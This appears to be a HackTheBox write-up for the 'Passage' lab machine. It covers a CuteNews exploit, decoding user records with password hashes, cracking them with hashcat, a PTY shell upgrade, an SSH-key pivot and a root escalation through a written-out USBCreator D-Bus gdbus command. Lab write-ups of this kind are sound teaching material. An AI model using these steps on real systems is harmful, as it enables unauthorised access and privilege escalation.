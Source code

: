 ```yaml
---
layout: default
title: Passage
parent: HackTheBox
nav_order: 6
---
```


# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-passage.PNG)

- Summary
- Recon
- Intrusion
- Lateral Movement
- Privilege Escalation
{:toc}



## [](#header-2)Summary:

- Enumerate Vulnerable version of CuteNews
- Exploit vulnerability to pop a shell
- Pivot into more privileged user(s)
- Escalate privileges with USBCreator D-Bus exploit


## [](#header-2)Recon:

Running an aggressive nmap scan I can see that there is a open ssh port and a apache webserver running on port 80.


![](pictures/nmap-passage.png)


Exploring the target host's website we get the following page:


![](pictures/index-passage.png)


At the bottom we see that the site is running on "CuteNews".


![](pictures/index1-passage.png)


![](pictures/cute-passage.png)





Searchsploit gifts us a mighty(and easy to use) exploit.



Once we use the exploit I pop into a rather restrictive shell within the web dir.


![](pictures/exploit-passage.png)


We also get some hashes to crack but to enumerate who the users may be I followed the some of the exploit code and end up on with the below encrypted info.


![](pictures/lines-passage.png)


Which we can decrypt from base 64 into the following:

```bash
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}
a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}
a:1:{s:4:"name";a:1:{s:5:"admin";
a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}
a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}
a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"a:2:{s:4:"site";s:0:"";s:5:"about";s:0:"";}";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}

```

Now we know which password hashes match to which users.



## [](#header-2)Intrusion:


To get a better shell I downloaded a reverse php shell from my host and catch the connection with netcat.


![](pictures/phpshell-passage.png)


I was logged in as www-data and had little to no access to much.


At around this time my hashcat that I ran earlier with 
-m 1400 = Sha256

```bash

 hashcat -m 1400  hashes.txt /usr/share/wordlists/rockyou.txt  

```

 the SHA-256 hashes came back with one result, which belongs to the user paul.


```bash
 e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1

 ```

 ## [](#header-2)Lateral Movement:


 To sign is as paul with "su" I had to switch my shell with:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```


Still not getting much of anywhere with Paul's account, I aimed to switch to the user nadav for two reasons:

1. nadav was the only other user I found in the /home dir.
2. nadav had more privileges and was apart of sudo group.

Looking in paul's authorized_keys file within ~/.ssh I found nadav's public ssh key.


![](pictures/key-passage.png)
Then I finally get into nadav's account and get the user flag.

![](pictures/phpshell-passage.png)



## [](#header-2)Privilege Escalation:


My goal from here is to escalate privileges and get my ass evolved to root user.


![](pictures/meme-passage.png)

After searching for awhile I find a .viminfo file on nadav's /home dir with the help of the ls -a command.

```bash
cat .viminfo
# This viminfo file was generated by Vim 7.4.
# You may edit it if you're careful!

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Last Substitute Search Pattern:
~MSle0~&AdminIdentities=unix-group:root

# Last Substitute String:
$AdminIdentities=unix-group:sudo

# Command Line History (newest to oldest):
:q
:wq
:%s/AdminIdentities=unix-group:root/AdminIdentities=unix-group:sudo/g

# Search String History (newest to oldest):
? AdminIdentities=unix-group:root

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Input Line History (newest to oldest):

# Registers:

# File marks:
'0  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
'1  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# Jumplist (newest first):
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# History of marks within files (newest to oldest):

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0

> /etc/dbus-1/system.d/com.ubunu.USBCreator.conf
```


Having no idea what "com.ubunu.USBCreator.conf" was I googled and found a very interesting [article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) to say the least.


I saw the article was written by the man himself nadav, so this was my first hint I was on the right path.

Essentially, the exploit allows us to create/overwrite arbitrary files as root with no password as long as the attacker(me) has access to the sudoers group(which nadav has). 


Naturally, my target with this was to overwrite the authorized_keys file in the /root/.ssh directory with nadav's.

With the following command:

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/a.txt /a.txt true
```


I was able to overwrite the file which was indicated by the ().

![](pictures/root-passage.png)


~~~Root!~~~



This was a really fun box especially on the lateral movement/priv esc side of things.







